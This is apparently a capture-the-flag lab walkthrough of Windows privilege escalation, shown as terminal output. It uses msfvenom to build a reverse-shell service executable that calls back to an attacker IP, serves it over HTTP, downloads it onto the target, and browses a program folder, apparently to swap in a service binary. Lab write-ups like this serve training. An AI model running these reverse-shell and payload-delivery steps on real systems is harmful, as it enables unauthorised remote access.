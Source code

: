 ```

 Directory of C:\Users\thm-unpriv

09/01/2022  05:10 PM    <DIR>          .
09/01/2022  05:10 PM    <DIR>          ..
05/03/2022  03:14 PM    <DIR>          3D Objects
05/03/2022  03:14 PM    <DIR>          Contacts
05/04/2022  08:15 AM    <DIR>          Desktop
05/03/2022  03:14 PM    <DIR>          Documents
05/03/2022  03:14 PM    <DIR>          Downloads
05/03/2022  03:14 PM    <DIR>          Favorites
05/03/2022  03:14 PM    <DIR>          Links
05/03/2022  03:14 PM    <DIR>          Music
05/03/2022  03:14 PM    <DIR>          Pictures
09/01/2022  05:10 PM            48,640 rev-svc.exe
05/03/2022  03:14 PM    <DIR>          Saved Games
05/03/2022  03:14 PM    <DIR>          Searches
05/03/2022  03:14 PM    <DIR>          Videos
               1 File(s)         48,640 bytes
              14 Dir(s)  15,004,889,088 bytes free


kali
┌──(kali㉿kali)-[~/Downloads/Windows_priv]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.81.220 LPORT=4445 -f exe-service -o rev-svc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc.exe
                                                                          
┌──(kali㉿kali)-[~/Downloads/Windows_priv]
└─$ python3 -m http.server                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.90.7 - - [01/Sep/2022 13:10:30] "GET /rev-svc.exe HTTP/1.1" 200 -

powershell 

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm-unpriv> wget http://10.11.81.220:8000/rev-svc.exe -O rev-svc.exe

C:\Users\thm-unpriv>cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\PROGRA~2\SYSTEM~1

05/03/2022  11:56 AM    <DIR>          .
05/03/2022  11:56 AM    <DIR>          ..
05/17/2007  01:47 PM             1,150 alarmclock.ico
08/31/2003  12:06 PM               766 clock.ico
08/31/2003  12:06 PM            80,856 ding.wav
09/01/2022  05:07 PM    <DIR>          Events
05/03/2022  11:56 AM                60 Forum.url
01/08/2009  08:21 PM         1,637,972 libeay32.dll
11/16/2004  12:16 AM             9,813 License.txt
09/01/2022  02:35 PM               696 LogFile.txt
```